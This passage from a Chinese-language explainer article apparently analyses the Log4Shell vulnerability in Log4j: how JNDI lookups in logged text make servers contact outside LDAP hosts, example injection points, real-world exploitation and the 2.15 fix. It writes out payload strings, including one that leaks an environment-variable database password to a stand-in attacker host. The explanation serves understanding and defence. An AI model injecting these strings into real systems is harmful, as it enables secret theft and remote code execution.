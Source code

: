但特殊地，如果查询位置里包含冒号（`:`）——最可能的情况就是一个固定的 URL 地址，例如 `${jndi:ldap://ldap.example.com/a}`，那么，Log4j 在查询时就不会追加上述前缀，而是直接向这个写死的地址查询数据。

**实现漏洞的链条就此串了起来。**上述功能组合在一起，造成的结果是：**Log4j 在记录日志时，可以通过 JNDI 接口，向一个外部的 LDAP 服务器发送请求。**

换言之，**只要设法让使用了 Log4j 的程序记下一条内容形如** `**${jndi:ldap://ldap.example.com/a}**` **的日志，那么记下这条日志的同时，程序就会试图向** `**ldap.example.com**` **请求查询数据，然后解析查询结果并写进日志。**

乍看上去，这似乎也没什么大不了。但是，一方面，日志的来源是广泛而多样的，其内容非常容易被操纵。另一方面，记录日志往往是由一个内部服务器或组件负责的，它们可能根本不应该与一个外部网址通讯。两个因素结合，就使得 Log4Shell 漏洞很容易触发，危害性又很高。

例如，很多服务器会通过日志记录访客的**浏览器信息**（即 HTTP 请求头中的 `User-Agent`）、登录的**用户名**，或者**搜索内容**。因此，只要将这些信息替换成 `${jndi:ldap://ldap.example.com/a}` 之类构造出的内容，就可以通过简单的浏览、登录或搜索操作，往服务器里塞进一条特殊构造的日志，致使服务器访问这条恶意日志中的地址。

需要指出，攻击文本中所用的 `ldap.example.com` 甚至不需要是一个真正的 LDAP 服务器。因为仅仅是让本不应访问外网的服务器访问外网并留下痕迹，就已经具有一定危害后果了。

留意观察现有攻击例证，会发现很多例子用到的攻击文本中频繁出现 `dnslog.cn`、`ceye.io` 等域名。这些网站的功能类似，都是允许生成一个随机网址，该网址被访问时，会记下访问者的 IP 地址等信息并即时显示在页面上。因此，这类网站经常被用来测试注入式漏洞——包括这次的 Log4Shell 漏洞——的效果：如果能成功操作被攻击主机访问自己生成的网址、留下访问记录，则表明攻击是有效的。

例如，在下面的截图中，攻击者将构造的字符串作为用户名来登录 iCloud 账户。显然，这个字符串进入了 iCloud 服务器的日志中，进而触发漏洞，访问了字符串中所包含的域名：

![](https://cdn.sspai.com/2021/12/13/93ca3afa2a110cf18b7afe5bdc50da6c.png?imageView2/2/w/1120/q/40/interlace/1/ignore-error/1)

类似地，在下面的 QQ 邮箱截图中，攻击者将构造的字符串填进了邮箱的搜索框，同样导致了腾讯服务器被记录：

![](https://cdn.sspai.com/2021/12/13/article/f54075d0de59b1e713ad7a4df1a93cb1?imageView2/2/w/1120/q/40/interlace/1/ignore-error/1)

又因为 JNDI 查询的语法是可以**嵌套**的，这进一步将可能泄露的内容范围，扩大到了**任何 Log4j 所能接触到的运行环境信息。**正如一些用户在 GitHub 上的漏洞讨论中 [指出](https://github.com/apache/logging-log4j2/pull/608#issuecomment-991354707)，形如 `${jndi:ldap://www.attacker.com:1389/${env:MYSQL_PASSWORD}` 的恶意日志，就会引导 Log4j 首先将内层的 `${env:MYSQL_PASSWORD}` 替换为真实的 MySQL 数据库密码，然后通过 URL 泄露给 `www.attacker.com`。

此外，注意到 JNDI 的本意在于**查询**——不仅是**发出请求**，而且会**记录**和**处理**查询结果，因此这个漏洞不仅会导致服务器信息泄漏，而且**允许攻击者向服务器传递任意危险内容，可能还包括执行恶意代码。** 例如，一个正常的 LDAP 服务器在收到查询请求时，返回的只是查询到的用户信息。但如果这是一个攻击者控制的「假」LDAP 服务器，那么它可以返回任意恶意内容——例如一段包含窃取或破坏功能的代码。

例如，上文提到的 BleepingComputer 报道中提到一个现有的真实案例：攻击者将一段使用 base64 编码的终端脚本附在 JNDI 查询指令中，导致被攻击机器下载并安装了挖矿程序：

![Kinsing Log4Shell exploit and decoded commands](https://cdn.sspai.com/2021/12/13/article/75c5fe8a7680c66071069acb2b8f9b95?imageView2/2/w/1120/q/40/interlace/1/ignore-error/1)

这种利用程序不经检查地将文本信息还原为对象的功能，注入和执行恶意代码的漏洞，术语称之为 **「反序列化漏洞」**（deserialization vulnerabilities），本身并非新鲜事物，在 Java 安全语境下也多有讨论。但或许是因为 Log4j 所服务的日志功能相对没那么引人注目，这个漏洞才蛰伏许久方被发现。

最后，当今网络服务往往是由相互通讯的多个组件构成的。因此，**即使直接接收恶意信息的组件不受漏洞影响，这则恶意信息也可能通过数据传输，在某一步被一个后端组件所记录和执行；这极大扩展了漏洞的攻击面和危险程度。**

Cloudflare 就在针对本漏洞的 [博文](https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/) 中举例说：假设一个物流数据系统，它读取包裹上的二维码信息，通过 Log4j 记录下来，然后传给后台服务进一步检索处理。那么，攻击者就可以将恶意构造的信息藏在二维码里，通过上述流程传给后台服务执行。

![Even if the Internet-facing software is not written in Java it is possible that strings get passed to other systems that are in Java allowing the exploit to happen.](https://cdn.sspai.com/2021/12/13/article/1288712b4ee84eda72907a373e3d8f5b?imageView2/2/w/1120/q/40/interlace/1/ignore-error/1)

## **漏洞易补，根源难除**

尽管 Log4Shell 漏洞的危害很大，但好在修复起来思路并不复杂。正如修复漏洞的 Log4j 2.15 版 [更新记录](https://issues.apache.org/jira/browse/LOG4J2-3201) 所示，其主要的修复方法就是加强对 JNDI 的限制，包括默认仅限访问本地的 LDAP 服务器（而非任意远程位置）、禁用大部分 JNDI 通讯的协议等。
